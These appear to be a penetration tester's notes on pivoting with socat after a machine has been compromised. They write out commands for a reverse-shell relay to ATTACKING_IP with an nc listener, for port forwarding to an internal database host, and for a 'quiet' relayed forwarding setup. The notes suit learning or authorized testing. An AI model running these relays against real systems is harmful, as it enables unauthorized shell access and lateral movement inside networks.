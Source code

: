 - Upload a static binary of socat
- Reverse shell relay: `./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`
	- Relays anything that connects to port 8000 of the compromised pivot machine back to our machine as a shell
	- Attacking ip:443 is our ip and 443 is our port with `nc -nlvp 443`
- Port forwarding: `./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`
	- Opens up port 33060 on compromised server, redirects connects from remote server 172.16.0.10:3306 to our computer
	- Send data to port 33060 on relay 172.16.0.5 and have connection automatically relay to remote
- Quiet port forwarding:
	- Our machine: `socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`
	- Relay machine: `./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &`
	- View port 8000 on server, data relayed from our port 8001 to remote relay then to remote service
- Close socat tasks: `jobs` then `kill %NUMBER` like `kill %1`